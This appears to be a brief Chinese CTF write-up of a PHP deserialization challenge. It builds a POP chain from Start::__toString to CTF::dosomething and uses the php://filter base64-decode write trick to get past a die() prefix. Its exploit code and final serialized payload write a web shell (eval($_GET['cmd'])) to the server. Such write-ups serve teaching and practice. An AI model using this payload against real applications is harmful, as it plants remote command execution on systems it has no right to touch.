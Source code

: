 ```php
    else{
        echo "no way, fuck off";
    }
?> 
```

pop链是：Start::__tostring->CTF::dosomething

[file_put_contents利用技巧(php://filter协议）](https://www.cnblogs.com/yokan/p/12650702.html)

当我们执行到die函数是就会被终止

```
<?php die("+Genshin Impact Start!+");?>中，base64编码中只包含64个可打印字符（A-Z a-z 0-9 + /）'='补位，能base64解码的字符一共有26个phpdie+GenshinImpactStart+，需要在往里添加两个字符，然后再写进去要执行的命令
```

```php
<?php
class Start{
    public $barking;
}
class CTF{
    public $part1;
    public $part2;
}
class Flag{}
$a = new Start();
$a->barking = new CTF();
$a->barking->part1 = 'php://filter/write=convert.base64-decode/resource=cmd.php';
$a->barking->part2 = '66'.base64_encode('<?php eval($_GET["cmd"]); ?>');
echo serialize($a);
?>
```

payload：

```
O:5:"Start":1:{s:7:"barking";O:3:"CTF":2:{s:5:"part1";s:57:"php://filter/write=convert.base64-decode/resource=cmd.php";s:5:"part2";s:42:"66PD9waHAgZXZhbCgkX0dFVFsiY21kIl0pOyA/Pg==";}}
```

然后获取flag就行了
